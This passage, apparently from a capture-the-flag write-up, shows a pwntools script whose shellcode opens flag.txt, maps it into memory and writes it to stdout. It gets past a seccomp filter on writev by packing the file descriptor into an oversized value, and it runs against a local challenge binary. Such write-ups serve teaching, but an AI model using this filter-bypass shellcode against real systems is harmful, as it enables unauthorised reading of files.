 Yay! 🎉
## The Easy Way

For some reason I only stumbled upon 0xdf's very helpful [youtube video](https://www.youtube.com/watch?v=GQnxTXB0bXY) covering this exact topic after completing the challenge. As it turns out, I was making things way harder than they really are. The same result can be achieved using [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) with a couple of lines of python code. 

```python
from pwn import *

context.log_level = 'debug'
context.update(arch="amd64")

LEN = 128

AT_FDCWD = -100
PROT_READ = 1
MAP_PRIVATE = 2
STDOUT_FILENO = 1

# open fd
payload = shellcraft.linux.openat(AT_FDCWD, "flag.txt", 0)
# allocate memory
payload += shellcraft.linux.mmap(0, LEN, PROT_READ, MAP_PRIVATE, "rax", 0)

# push iovec to stack
payload += shellcraft.push(LEN)
payload += shellcraft.push("rax")

# filter bypass
fd = STDOUT_FILENO << 32
fd += STDOUT_FILENO
# write to STDOUT
payload += shellcraft.linux.writev(fd, "rsp", 1)

# return properly
payload += shellcraft.ret(0)

p = process("./syscalls")
p.readline()
p.sendline(asm(payload))
p.readline()
```

So [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) provides python bindings for each syscall. The only challenge is finding the correct
arguments and also adding the filter bypass for `writev`. This way we can focus on solving the challenge on a logical level rather than having to fiddle with
assembly by hand.

```bash
$ python pwn-exploit.py
[+] Starting local process './syscalls': pid 25811
b'ehlo\n'
[*] Stopped process './syscalls' (pid 25811)
```
